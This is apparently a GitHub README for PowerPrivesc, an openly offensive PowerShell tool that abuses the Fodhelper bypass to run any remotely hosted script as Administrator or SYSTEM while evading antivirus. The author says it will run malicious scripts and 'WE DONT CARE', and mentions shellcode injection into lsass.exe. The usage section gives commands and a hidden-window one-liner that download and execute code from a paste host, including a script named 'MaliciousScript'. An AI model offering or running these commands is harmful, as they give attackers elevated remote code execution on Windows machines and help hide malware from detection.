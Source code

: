 # PowerPrivesc - Your AIO FUD Powershell Privesc Tool
Your all-in-one Powershell privilege escalation tool to run ANY script from a webserver.
You heard it right,ANYTHING! Wether its malicious or not,WE DONT CARE! ;)

The privilige escalation method that this tool used is the same one with the one that used on [MeterPwrShell](https://github.com/GetRektBoy724/MeterPwrShell).
This tool literally can run any script you want,from a normal copy-paste file to injecting shellcode into lsass.exe.
Dont forget to host the script somewhere! (my own recommendation is paste.c-net.org),
And also,dont even worry of your script is getting caught by AVs,we take care of the AV Evasion and Bypass ;)
# Notes
- NEVER UPLOAD THE PAYLOAD THAT GENERATED BY THIS PROGRAM TO ANY ONLINE SCANNER
- NEVER USE THIS PROGRAM FOR MALICIOUS PURPOSE
- SPREADING THE PAYLOAD THAT GENERATED BY THIS PROGRAM IS NOT COOL
- ANY DAMAGE GENERATED BY THIS PROGRAM IS NOT MY (As the program maker) RESPONSIBILTY!!!
- THIS TOOL DOESNT SCAN FOR PRIVESC VULNS,BUT ACTUALLY EXPLOIT A VULNERABILITY THAT WORKS AND UNPATCHED ON ALL WINDOWS 10 (which is Fodhelper Privesc Vulnerability)
- If you have some feature recommendation,post that on Issue
- If you have some issue with the program,try redownloading it again (trust me),cause sometimes i edit the release and fix it without telling 😂
- If you want to know how tf my tool can bypass any AVs,you can check on [this](https://gist.github.com/GetRektBoy724/9383c9580cb1c9935fc04cc7eb7ef004) and [this](https://blog.sevagas.com/Bypass-Antivirus-Dynamic-Analysis)
### This Script Is Tested on Windows 10 v20H2
# Thanks to
- @FuzzySec for that awesome Masquerade PEB script
- @decoder-it for that amazing PPID Spoofing script
- Me for not dying when creating this tool
- Ed Wilson AKA Microsoft Scripting Guy for the great Powershell scripting tutorials
- and the last one is Emeric Nasi for the [research on bypassing AV dynamics](https://blog.sevagas.com/IMG/pdf/BypassAVDynamics.pdf)
# Requirements
- Internet Connection (On The Computer Where You Use This Script)
# Usage
After importing the script with `Import-Module` or invoke the script with `.\Invoke-PowerPrivesc.ps1` or *invoking it remotely*,this is the options you have
```
PARAMETER 
- ScriptLink
The link that goes into the script
- ToPrivilege
The privilege you want,it can be Administrator or SYSTEM
SWITCH 
- HideWindow
Use the switch to hide Powershell windows,By default,this tool shows the window
EXAMPLE
Invoke-PowerPrivesc -ScriptLink https://paste.c-net.org/MaliciousScript -ToPrivilege SYSTEM -HideWindow
Description
-----------
Run the Script as SYSTEM with window hidden
--------------------------------------------------------------------------------------------------------
Invoke-PowerPrivesc -ScriptLink https://paste.c-net.org/MaliciousScript -ToPrivilege Administrator
Description
-----------
Run the Script as Administrator with window not hidden
```
One-Liner Example :
`powershell.exe powershell.exe -nop -W hidden -ep bypass -NoExit -Command "$accessspowerprivesc = Invoke-WebRequest https://raw.githubusercontent.com/GetRektBoy724/PowerPrivesc/master/Invoke-PowerPrivesc.ps1 -UseBasicParsing;Invoke-Expression $access.Content;Invoke-PowerPrivesc -ScriptLink https://paste.c-net.org/MaliciousScript -ToPrivilege SYSTEM -HideWindow"`
 # To-do List

